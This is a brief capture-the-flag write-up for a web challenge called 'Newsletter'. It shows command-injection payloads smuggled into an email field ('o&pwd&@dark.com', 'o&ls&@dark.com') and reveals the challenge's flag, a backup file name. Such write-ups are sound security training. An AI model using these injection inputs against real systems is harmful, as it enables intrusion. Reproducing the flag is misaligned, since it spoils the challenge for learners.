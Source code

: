 # Challenge Name:
 [*Newsletter*](https://cybertalents.com/challenges/web/newsletter)
 
# Challenge Description
the administrator put the backup file in the same root folder as the application, help us download this backup by retrieving the backup file name

Link: [http://18.192.3.151/newsletter/](http://18.192.3.151/newsletter/)

## Answer
* Try to inject command in the textbox (notice that he want email in this box)
```
o&pwd&@dark.com
```
* So '&' success to inject command lets get backup file name
```
o&ls&@dark.com
```
* You got the Flag!!


 ## The Flag
 > hgdr64.backup.tar.gz   
